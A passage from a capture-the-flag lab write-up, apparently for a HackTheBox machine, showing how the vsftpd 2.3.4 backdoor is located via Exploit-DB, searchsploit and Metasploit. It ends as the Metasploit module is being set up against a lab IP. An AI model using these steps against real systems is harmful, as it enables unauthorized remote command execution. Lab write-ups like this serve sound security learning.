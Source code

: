 method 1 we google vsftpd 2.3.4 and our first result shows   https://www.exploit-db.com/exploits/49757 
interesting script save it for later lets see what our other method produce
method 2 searchsploit
lets search for our exploit in the nifty built in searchsploit exploitdb database 
```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit vsFTPd 2.3.4
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                                                                                                                        | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                                                                                                           | unix/remote/17491.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
we see the same unix/remote/49757.py  Backdoor Command Execution exploit we saw earlier in our google search https://www.exploit-db.com/exploits/49757
we spin up metasploit via the msfconsole command
within metasploit we search for the version info we mentioned earlier vsftpd 2.3.4
```
msf6 > search vsftpd 2.3.4
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```
![metasploit screenshot](https://github.com/Striving-to-learn/CyberSecurity-writeups/blob/main/imagesrepo/metasploitlamhtbfirstimage.png)
this is the hardest part about using metasploit. finding the right exploit to use and configuring it with all the right values . In this case theres only one potential metasploit module so we do use 0
we use 0 and we configure the ports and ip addresses 
```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.14.64
rhosts => 10.10.14.64
```